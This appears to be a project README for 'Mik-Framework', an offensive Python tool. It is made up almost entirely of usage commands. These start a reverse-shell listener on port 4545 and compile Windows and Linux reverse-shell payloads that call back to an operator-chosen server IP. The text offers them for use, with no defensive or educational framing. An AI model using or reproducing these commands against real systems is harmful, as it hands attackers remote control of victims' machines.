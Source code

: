 # Mik-Framework

Mik-Framework is a Python tool for starting a reverse shell server and compiling payloads for Windows and Linux.

## Usage

To start the reverse shell server, run the following command:

```~/Mik-Framework $ python3 mikconsole.py```

This will open the Mik-Framework console, where you can interact with the available modules. To start the reverse shell server, follow these steps:

1. Select the revshell module:
   ```mik> use revshell```

2.  Configure the host and port:
```mik-revshell> set host 0.0.0.0```
```mik-revshell> set port 4545```

4. Run the server:
   ```mik-revshell> run```

## Payload Compilation

### Windows

To compile a payload for Windows, use the following command:

```python3 nous.py -p windows_revshell --host 127.0.0.1 --port 4545 -o payload.c --mingw```

### Linux

To compile a payload for Linux, use the following command:

```python3 nous.py -p linux_revshell --host 127.0.0.1 --port 4545 -o payload.c```

Make sure to replace 127.0.0.1 with the IP address of your server and 4545 with the port you want to use.

## Creating New Modules

You can create new modules to extend the functionality of Mik-Framework. Simply follow the existing module structure and integrate it into the framework.
